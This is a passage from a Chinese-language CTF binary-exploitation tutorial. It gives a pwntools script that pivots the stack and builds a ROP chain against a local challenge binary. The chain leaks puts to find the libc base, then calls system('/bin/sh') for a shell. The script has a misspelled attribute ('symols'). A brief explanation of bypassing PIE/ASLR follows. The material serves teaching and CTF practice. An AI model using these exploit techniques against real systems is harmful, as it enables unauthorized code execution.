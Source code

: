 #### Exp：

```python
from pwn import *
context.log_level = 'debug'

p = process('./CET6')
elf = ELF("./CET6")
libc = elf.libc

pop_rdi = 0x4012f3
fake_stack = 0x404F00
read_addr = 0x4011ae
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

p.sendafter('your name:\n','\x00' * 0x8)
payload = 'a' * 0x40 + p64(fake_stack) + p64(read_addr)
p.sendafter('QAQ:How was your test???', payload)
payload = 'a' * 0x40 + p64(fake_stack + 40) + p64(read_addr)    # 为了能在fake_stack处写入数据
p.send(payload)
payload = 'a' * 8 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(read_addr)   # 此时的rsp = 0X404f08
p.send(payload)
put_addr = u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))

libc_base = put_addr - libc.symols['puts']
success('libc_base:'+ hex(libc_base))
binsh = libc_base + libc.search('/bin/sh\x00').next()
system = libc_base + libc.symols['system']

payload = 'a'*0x20 + p64(pop_rdi) + p64(binsh) + p64(system)  # 此时的rsp = 0X404f20
p.send(payload)

p.interactive()
```

**PIE绕过**
---------

### PIE（ ASLR ）保护机制

PIE和ASLR的是操作系统的功能选项，两者一般一起配合使用，其随机化了ELF装载内存的基址（代码段、plt、got、data等共同的基址）。现代操作系统一般都加设这一机制，以防范恶意程序对已知地址进行 **Return-to-libc** 攻击。

但是PIE影响的是程序加载的基址，并不会影响指令间的相对地址，因此如果我们能够泄露程序的某个地址，就可以通过修改偏移获得程序其它函数的地址。

### PIE怎么绕过

虽然程序每次运行的基址会变,但程序中的各段的相对偏移是不会变的,只要泄露出来一个地址,比如函数栈帧中的返回地址

,通过ida静态的看他的程序地址,就能算出基址,从而实现绕过

### 例题演示：
